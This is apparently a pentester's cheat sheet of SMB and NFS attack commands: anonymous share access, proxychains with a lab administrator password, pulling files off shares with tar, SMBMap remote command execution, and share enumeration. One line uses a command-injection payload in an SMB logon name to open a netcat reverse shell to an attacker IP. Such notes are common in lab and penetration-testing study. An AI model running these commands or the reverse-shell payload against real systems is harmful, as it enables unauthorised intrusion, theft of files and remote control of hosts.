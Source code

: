 Connecting to SMB Share without username and password

{% highlight PowerShell %}
smbclient \\\\10.1.1.99\\myshare
{% endhighlight %}

We can use smbclient over proxychains

{% highlight PowerShell %}
proxychains smbclient '//192.168.1.230/myshare' -U 'MARVEL.LAB\Administrator%password123!'
{% endhighlight %}

We can tar up files or folders with smbclient

{% highlight PowerShell %}
smbclient \\\\10.129.121.21\\guest -Tc test.tar secret.txt
smbclient \\\\10.129.121.21\\guest -Tc test.tar /tmp
{% endhighlight %}

## Mount Share

Mount SMB Share

{% highlight PowerShell %}
mount -t  //X.X.X.X/c$ /mnt/remote/ -o username=user,password=pass,rw
{% endhighlight %}

To get a shell back from an SMB share.

{% highlight PowerShell %}
logon "/=`nc 10.11.0.233 443 -e /bin/bash`"
{% endhighlight %}

## SMBMap

Not very stealthy but can execute a command

{% highlight PowerShell %}
python /usr/share/smbmap/smbmap.py -H 127.0.0.1 -u user -p pass -x 'net group "domain admins" /domain'
{% endhighlight %}

## SMBTree

SMB Tree can map out all smb shares in neighbourhood.

{% highlight PowerShell %}
smbtree
{% endhighlight %}

# NFS

View exported NFS Shares

{% highlight PowerShell %}
showmount -e <ip>
{% endhighlight %}

